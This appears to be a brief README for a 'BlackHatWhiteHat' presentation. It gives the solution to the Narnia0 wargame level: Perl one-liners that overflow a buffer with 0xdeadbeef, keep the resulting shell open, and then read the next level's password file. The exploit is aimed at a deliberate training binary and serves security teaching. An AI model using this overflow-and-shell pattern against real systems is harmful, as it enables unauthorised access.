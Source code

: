 # BlackHatWhiteHat
Perl Script and Linux Commands

echo $(perl -e 'print "B"x20 . "C"x4;') | ./narnia0

(echo $(perl -e 'print "B"x20 . "\xef\xbe\xad\xde"x4;') && cat;) | ./narnia0

whoami

echo OWNED

cat /etc/narnia_pass/narnia1


LINK TO SLIDES:
https://docs.google.com/presentation/d/1UbYPy0qtaavjXjbQp1vI1MkvCauogBWby--s2ePPBqA/edit?usp=sharing
